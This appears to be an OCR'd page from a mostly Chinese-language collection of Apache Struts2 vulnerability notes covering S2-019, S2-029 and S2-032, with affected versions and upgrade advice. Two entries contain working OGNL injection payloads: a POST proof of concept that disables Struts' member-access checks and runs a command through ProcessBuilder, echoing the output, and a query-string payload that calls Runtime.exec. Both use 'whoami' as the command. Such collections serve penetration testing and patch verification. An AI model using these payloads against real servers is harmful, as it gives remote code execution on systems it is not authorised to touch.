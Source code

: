 > Problem:
> 
> 动态方法调用是一种已知的可能存在安全漏洞的机制，但在此之前，它是默认启用的，并警告用户如果可能的话，应该关闭它。
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.15.1
> 
> Solution:
> 
> 关闭debug模式, Developers should immediately Upgrade to Apache Struts version 2.3.15.2

###### POST POC

```
debug=command&expression=#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),#req=@org.apache.struts2.ServletActionContext@getRequest(),#resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[10000],#d.read(#e),#resp.println(#e),#resp.close()
```
---

#### S02-029 无回显

> Problem:
> 
> 当开发者在模版中使用了类似如下的标签写法时，后端 Struts2 处理时会导致二次 OGNL 表达式执行的情况：
> 
> `<s:textfield name="%{message}"></s:textfield>`
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.16
> 
> Solution:
> 

```
?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('whoami'))
```

---

#### S02-032 无回显

> Problem:
> 
> 在配置了 Struts2 DMI 为 True 的情况下，可以使用 method:<name> Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（Dynamic Method Invocation），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会
> 
> Affected Software: 
> 
> Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)
> 
> Solution:
> 
> Disable Dynamic Method Invocation if possible. Alternatively Upgrade to Apache Struts version 2.3.20.3, Struts 2.3.24.3 or Struts 2.3.28.1.
